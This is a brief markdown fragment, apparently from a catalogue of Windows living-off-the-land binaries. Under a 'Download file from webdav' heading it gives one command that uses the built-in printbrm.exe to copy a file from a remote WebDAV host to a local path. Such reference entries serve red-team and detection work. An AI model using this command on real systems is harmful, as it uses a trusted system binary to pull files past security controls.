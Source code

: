 ### Download file from webdav
```
C:\Windows\System32\spool\tools\printbrm.exe -b -d \\<host>\<file> -f C:\<outfile>
```

